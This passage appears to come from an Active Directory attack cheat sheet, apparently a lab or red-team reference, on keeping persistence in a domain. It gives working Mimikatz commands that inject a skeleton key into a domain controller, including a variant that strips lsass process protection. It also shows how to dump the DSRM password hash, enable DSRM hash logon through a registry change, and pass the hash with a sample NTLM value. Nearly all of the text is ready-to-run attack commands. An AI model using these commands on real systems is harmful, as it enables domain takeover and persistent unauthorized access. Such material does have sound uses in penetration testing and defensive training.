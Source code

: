 Use the below command to inject a skeleton key (password would be *mimikatz*) on a Domain Controller of choice (DA privileges required)

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"misc::skeleton"' -ComputerName "COMPUTER1"
```

```
:: mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # misc::skeleton
```

Now, it is possible to access any machine with a valid username and password as *mimikatz*:

```powershell
Enter-PSSession -ComputerName "COMPUTER1" -Credential "cyberlab.cybercorp.local\Administrator"
```

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:

```
:: mimikatz.exe
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !
```

## DSRM

There is a local administrator on every DC called *Administrator* whose password is the DSRM password. After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

Dump DSRM password (requires Domain Admin privileges):

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
```

Enable logon through hash for DSRM:

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Since it is the local administrator of the DC, we can pass-the-hash to authenticate. Use below command to pass the hash (/domain: parameter needs machine and not domain name)

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:[DC_FQDN] /user:Administrator /ntlm:[DSRM_NTLM_HASH] /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:cyberlab-dc.cyberlab.cybercorp.local /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

